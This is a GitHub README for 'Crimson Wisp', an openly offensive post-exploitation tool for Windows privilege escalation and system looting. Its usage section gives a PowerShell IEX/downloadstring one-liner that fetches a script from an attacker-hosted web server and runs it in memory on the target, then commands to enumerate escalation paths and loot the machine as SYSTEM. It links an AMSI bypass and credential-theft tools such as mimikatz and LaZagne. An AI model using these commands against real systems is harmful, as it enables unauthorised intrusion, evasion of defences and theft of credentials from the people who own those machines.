

# Crimson Wisp

> Crimson Wisp is a tool that automates post-exploitation `PRIVILEGE ESCALATION` & `LOOTING` phases.
> It uses many open source tools. Most of them are available for download from GitHub.

<p align="center">
  
</p>

# Installation
```
git clone https://github.com/Karmaz95/crimson_wisp.git
```
# Usage
## ON THE HOST MACHINE
* GO TO crimson_wisp DIRECTORY AND START THE WEB SERVER
```
cd crimson_wisp
sudo python3 -m http.server 80
```
## ON THE TARGET MACHINE
* LOAD THE SCRIPT TO MEMMORY
```
IEX(new-object system.net.webclient).downloadstring("http://<your_server>/wisp.txt")
```
* SET A SERVER URL FOR THE DOWNLOADERS & LOAD THE SCRIPTS
```
Invoke-Wisp -Url http://<your_server>
. memory_load
```
* PRIVILEGE ESCALATION ENUMERATION
```
escalation
```
* LOOTING THE SYSTEM - USE AS nt `authority/system` ONLY!
```
looting
```
# HISTORY
> If you are curious about how it works, read my blog:
* [MEDIUM](https://karol-mazurek95.medium.com/)

# List of utilized tools
> The following tools are used in `Crimson Wisp`. I encourage you to study the links below. They will help you in your work.

* [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
* [AMSI BYPASS](https://github.com/Karmaz95/evasion/blob/main/isma.txt)
* [HostRecon](https://github.com/dafthack/HostRecon)
* [PrivescCheck](https://github.com/itm4n/PrivescCheck)
* [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)
* [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
* [SharpHound](https://github.com/puckiestyle/powershell/blob/master/SharpHound.ps1)
* [adPEAS](https://github.com/61106960/adPEAS)
* [LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit)
* [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)
* [Invoke-Portscan](https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Portscan/)
* [mimikatz](https://github.com/gentilkiwi/mimikatz)
* [psexec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)
* [procdump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump)
* [nmap](https://nmap.org/)
* [Rubeus](https://github.com/GhostPack/Rubeus)
* [laZagne](https://github.com/AlessandroZ/LaZagne)

# LICENSE
> This program is free software: you can redistribute it and/or modify it under the terms of the [Apache License](https://choosealicense.com/licenses/apache-2.0/). Crimson Lisp and any contributions are Copyright © by Karol Mazurek 2022.

# SUPPORT
> You can support the project by buying me a coffee or via [NFT](https://opensea.io/assets/matic/0x2953399124f0cbb46d2cbacd8a89cf0599974963/63545429842149574507305116647116186975620361263604520406486432940112228647212/) which unlock the secret Crimson Web community.

<a href="https://www.buymeacoffee.com/karmaz95" target="_blank"></a>